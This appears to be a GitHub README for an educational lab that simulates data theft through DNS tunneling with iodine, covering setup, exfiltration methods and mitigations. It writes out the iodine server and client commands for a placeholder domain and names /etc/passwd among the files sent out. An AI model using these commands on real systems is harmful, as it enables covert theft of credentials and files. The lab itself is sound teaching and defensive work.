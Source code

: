 **Data Stealing Using DNS Tunneling**

This project demonstrates how attackers can exploit the DNS protocol to steal data from a compromised system using DNS tunneling. The exercise highlights the misuse of DNS, a critical service for resolving domain names, to covertly bypass security measures.


**Tools & Technologies:**

Operating System: Kali Linux

Tools: iodine

Environment: Virtualized environment for secure testing and execution


**Attack Simulation Steps:**

**Setup the DNS Server:**

Deployed iodine on Kali Linux to create a DNS tunnel.

Command: **sudo iodined -f -c -P password 192.168.1.1 fake-domain.org**

**Setup the DNS Client:**

Configured the client to connect to the DNS server using iodine.

Command: **sudo iodine -f -P password -T A 192.168.1.1 fake-domain.org**


**Data Exfiltration:**

Executed various methods to stealthily transfer data through the DNS tunnel:

Method 1: Transferred the output of system commands.

Method 2: Transferred sensitive files such as /etc/passwd.

Method 3: Transferred system log files.


**Mitigation:**


**Detection:** Monitored DNS traffic using tools like Wireshark.

**Prevention:** Implemented DNS filtering and anomaly detection systems to block unauthorized DNS queries.

**Outcome:** Demonstrated how DNS tunneling can be exploited for covert data exfiltration and the importance of robust DNS security measures to detect and mitigate such attacks.



**Note:** All documents related to this project are included in the repository for detailed context and instructions.


**How to Use:**

Download and review the Learning Objective and Lab Manual documents for context, instructions, and mitigation strategies.

Set up the environment using the provided Bash scripts to simulate the DNS tunneling attack.

View the PowerPoint Presentation for a summary and educational overview of the project.


**Disclaimer
This project is intended for educational purposes only. Unauthorized use of this code in real-world systems is illegal and unethical.**
